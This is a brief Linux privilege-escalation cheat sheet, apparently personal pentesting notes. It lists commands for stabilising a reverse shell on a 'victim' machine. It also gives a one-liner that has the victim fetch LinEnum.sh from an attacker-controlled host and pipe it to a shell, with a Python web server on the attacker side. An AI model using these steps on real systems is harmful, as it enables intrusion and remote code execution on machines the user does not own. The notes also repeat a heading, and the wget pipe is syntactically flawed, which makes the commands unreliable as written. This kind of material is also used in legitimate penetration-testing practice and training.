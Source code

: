 Linux Privilege Escalation
--------------------------

<Fixing a Shell>
  Mirror the victims machine with your kali terminal window
  
  $ stty -a  <br>
  $ stty raw -echo <br>
  $ fg <br>
  $ stty rows <number> columns <number> <br>
  $ reset <br>
  $ export TERM=screen <br>
  $ export SHELL=bash <br>
  
<Fixing a Shell>
  Run Linux Exploit Suggester or LinEnum.sh <br>
  
  Victim Machine <br>
  wget http://<attackerIP>:<port>/LinEnum.sh | Bash
  Attacker Machine <br>
  python -m SimpleHTTPServer <port>
  


